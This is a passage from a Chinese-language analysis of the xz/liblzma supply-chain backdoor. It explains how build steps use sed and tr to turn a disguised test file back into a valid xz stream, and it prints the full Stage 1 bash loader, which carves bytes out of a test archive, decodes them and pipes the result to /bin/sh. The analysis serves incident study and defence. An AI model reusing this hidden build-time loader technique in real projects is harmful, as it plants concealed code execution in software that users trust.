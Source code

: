进行了一个字符替换，将制表符`\t`、空格`\ `、连字符`-`、下划线`_`，依次替换为了空格`\ `、制表符`\t`、下划线`_`、连字符`-`

这段代码在构建过程中的某个地方运行，提取第一阶段脚本。概述如下：

1. `sed \&#34;r\n\&#34; $gl_am_configmake`：读取 `tests/files/bad-3-corrupt_lzma2.xz `文件中的字节，并用作下一步的输入。读取完所有内容后，会添加换行符`\n`;
2. 运行 tr 命令，进行字符替换，将选定的字符更改为其他字符，将制表符`\t`、空格`\ `、连字符`-`、下划线`_`，依次替换为了空格`\ `、制表符`\t`、下划线`_`、连字符`-`，它对`tests/files/bad-3-corrupt_lzma2.xz` 文件中的字节进行替换，这使得 bad-3-corrupt_lzma2.xz 再次形成了正确的 xz 流。
3. 在此阶段的最后一步中，提取固定的 xz 字节流，并忽略错误（该流似乎被截断，但这并不重要，因为整个有意义的输出已被写出）。其结果是Stage 1的脚本，该脚本会立即执行。

下面是 5.6.0 版本解压后的Stage 1 脚本

![image-20240406211624801](resource/xz库恶意后门植入事件.assets/image-20240406211624801.png)

### Stage 1

在Andres 的电子邮件中是以“####Hello####”开头的 bash 文件。以下是 5.6.1版本

```sh
####Hello####
# a few binary bytes here, but as it&#39;s a comment they are ignorred
[ ! $(uname) = &#34;Linux&#34; ] &amp;&amp; exit 0
[ ! $(uname) = &#34;Linux&#34; ] &amp;&amp; exit 0
[ ! $(uname) = &#34;Linux&#34; ] &amp;&amp; exit 0
[ ! $(uname) = &#34;Linux&#34; ] &amp;&amp; exit 0
[ ! $(uname) = &#34;Linux&#34; ] &amp;&amp; exit 0
eval `grep ^srcdir= config.status`
if test -f ../../config.status;then
eval `grep ^srcdir= ../../config.status`
srcdir=&#34;../../$srcdir&#34;
fi
export i=&#34;((head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;939)&#34;;(xz -dc $srcdir/tests/files/good-large_compressed.lzma|eval $i|tail -c &#43;31233|tr &#34;\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113&#34; &#34;\0-\377&#34;)|xz -F raw --lzma1 -dc|/bin/sh
####World####
```
